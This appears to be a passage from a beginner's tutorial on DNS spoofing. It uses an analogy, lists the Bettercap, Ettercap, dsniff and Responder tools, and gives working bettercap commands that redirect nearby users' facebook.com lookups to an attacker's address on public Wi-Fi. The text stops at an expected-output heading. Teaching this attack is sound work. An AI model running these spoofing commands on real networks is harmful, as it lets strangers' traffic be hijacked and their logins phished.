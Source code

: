 ----------

### 🧠 Real-World Analogy

You're at a café and ask the barista,

> “Where’s the ATM?”

Before the real barista can respond, a scammer nearby says:

> “Right this way!” and takes you to a fake ATM.

----------

### 🔧 How It Works

1.  You connect to a **Wi-Fi at an airport**
    
2.  You ask for `facebook.com`
    
3.  Attacker listens and replies **faster** than the real DNS server
    
4.  Your computer uses the attacker's answer and loads a fake website
    

----------

### 🛠 Tools Used

-   `Ettercap`, `Bettercap`, `dsniff`, `Responder`
    
-   Often paired with ARP spoofing to redirect traffic
    

----------

### 📤 Example Setup

On attacker’s machine:

```bash
bettercap -iface wlan0

```

Spoof DNS:

```bash
set dns.spoof.domains facebook.com
set dns.spoof.address 192.168.1.100
dns.spoof on

```

Now when any nearby user types `facebook.com`, they get redirected.

----------

### 📤 Expected Output (On Target Machine)
